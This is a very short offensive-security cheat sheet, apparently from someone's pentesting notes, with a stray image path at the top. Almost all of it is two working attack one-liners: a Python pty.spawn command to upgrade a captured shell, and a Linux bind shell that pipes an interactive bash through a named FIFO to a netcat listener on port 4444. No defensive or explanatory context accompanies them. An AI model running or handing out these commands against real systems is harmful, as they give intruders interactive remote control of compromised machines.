 Poor mans Stabilize
python3 -c 'import pty;pty.spawn("/bin/bash")'


bind shell linux:
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l $IP 4444 > /tmp/f`